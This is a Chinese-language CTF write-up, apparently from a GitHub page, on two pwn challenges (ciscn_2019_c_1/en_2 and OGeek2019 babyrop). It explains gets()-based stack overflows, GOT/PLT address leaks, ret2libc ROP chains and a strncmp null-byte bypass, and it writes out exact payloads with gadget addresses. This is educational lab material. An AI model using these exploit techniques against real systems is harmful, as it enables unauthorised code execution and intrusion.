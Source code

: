 ## ciscn_2019_c_1
## ciscn_2019_en_2

ciscn_2019_c_1以及ciscn_2019_en_2，这两题没看出区别

```c
int encrypt()
{
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  // ...
  gets(s);
}
```

`gets`缓冲区溢出，但是程序中没有`system('/bin/sh')`，需要泄露libc

### 前置知识

[GOT表和PLT表](https://www.jianshu.com/p/0ac63c3744dd)

简单来说，plt表中`lib_fun`项存的是got表中`lib_fun`项的地址；但第一次调用`lib_fun`函数之前，got表中`lib_fun`项存的是一些装载工作的代码地址；在第一次调用开始后，装载代码把got表中`lib_fun`项存储的变为其实际地址

### 泄露函数地址

libc动态链接库有以下两个性质：

- 随库的版本不同，库中函数的地址不同
- 同一版本的库，两个函数的地址偏移相等

通过第一条性质，一旦我获得了任意libc库的函数地址，就能通过数据库得到libc的版本信息；得到版本信息之后，通过第二条性质，我又能计算出目标函数及字符串的地址（在这里是`system()`和`"/bin/sh"`）

[libc database search](https://libc.blukat.me/)

为了得到某个libc库的函数地址，可以使用输出的方式；由于plt表和got表的行为，在输出一个libc函数的地址之前需要先调用它，这就使得gets成为不二之选：只要构造出`gets(gets在got表中的地址)`的调用，就能输出`gets`的真实地址了

接下来考虑`gets(gets在got表中的地址)`这个调用的构造，由于64位程序使用寄存器传参，其中第一个参数是`%rdi`，而通过溢出，我能够影响的只有栈；那么我该做的就是：把栈顶数据弹出到`%rdi`，也就是`pop %rdi`指令；当然，由于跳转到这条指令之后我还需要跳转到`gets@plt`这个函数，所以当然还需要一个`ret`。故，我需要在程序中找到这样一条指令：`pop %rdi; ret`（在一些64位C程序中，其地址是0x400c83）。

得到`gets`之后怎么办？我还没把`system("/bin/sh")`打出去呢！重新进一遍有漏洞的地方就好了。那就可以构造出合适的栈数据了，根据函数的调用规则，以及由于缓冲区溢出需要覆盖返回地址，是：溢出填充 + `pop_rdi_ret`（返回地址覆盖） + `puts_got`（puts参数） + `puts_plt`（puts函数地址） + `encrypt`（puts返回）

在本题中是`payload = b'a' * 0x58 + p64(0x400c83) + p64(elf_file.got['puts']) + p64(elf_file.plt['puts']) + p64(0x4009a0)`

### 打出`system("/bin/sh")`

打出了第一阶段的payload之后，我能够得到`gets`的真实地址了。在[libc database search](https://libc.blukat.me/)上搜索可以得到几个函数的偏移地址。

二阶段的payload构造原理和一阶段的相同，额外需要注意的是，有些系统对`system`函数的调用要求`%rsp`的低4位是0（参考：[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)），靶机上就是这样一个系统。在本题中此时的`%rsp`低4位是8，只需要在栈上多叠一次`ret`指令（0x400c85）即可。

`payload = b'a' * 0x58 + p64(0x400c85) + p64(0x400c83) + p64(bin_sh) + p64(system)`

需要注意的是，`encrypt`函数对缓冲区中的字符进行了异或操作，可能需要复原一下（尽管在本exp中没有写也攻击成功了）

## [OGeek2019]babyrop

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h] BYREF
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}

int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}

ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    result = read(0, buf, 0xC8u);
  else
    result = read(0, buf, a1);
  return result;
}
```

`main()`函数产生一个随机的整数；第一个函数将该整数字符串化，让用户输入一个字符串进行比较，相等时返回用户输入的第8个字符a；此作为第三个函数的输入，从`stdin`读取a字节的数据，而缓冲区距离栈顶0xe7字节；所以解题点是缓冲区溢出

`strncmp(s1, s2, 0)`的调用总是返回0的，故构造`strlen(buf)`为0，又因为`read()`函数读取固定大小，故只需第一个输入的首字节`\x00`；并且第一个输入的第8个字符a作为第三个函数的读取数量，应该是`\xff`；

`payload_a = b'\x00' + b'\xff'*0x18`

之后第二个输入就是缓冲区溢出覆盖返回地址了，由于程序中没有`system("/bin/sh")`，故需要构造rop；注意本题中靶机是32位，不需要`pop_rdi_ret`；已用过的输出函数有`write(stream, buf, size)`

payload = 填充 + write函数地址（用于泄露libc） + 漏洞函数地址（二次进入漏洞以调用`system("/bin/sh")`） + 1（stream=stdout） + write_got（buf=write_got） + 4（size=4）

但是，由于漏洞函数`sub_80487D0(a1)`需要额外参数，而栈在构造rop时已经被破坏了，（在以下payload中，会调用`sub_80487D0(a1=p32(elf_file.got['write']))`）故只能返回到无参数的`main()`函数中

`payload_b = b'a'*(0xe7+4) + p32(elf_file.plt['write']) + p32(0x8048825) + p32(1) + p32(elf_file.got['write']) + p32(4)`

之后利用远端回显的地址和本题提供的.so文件，计算出目标函数信息，再打出一次`payload_a`二次进入漏洞函数，打出`system("/bin/sh")`

`payload_c = b'a'*(0xe7+4) + p32(system) + b'c'*4 + p32(bin_sh)`
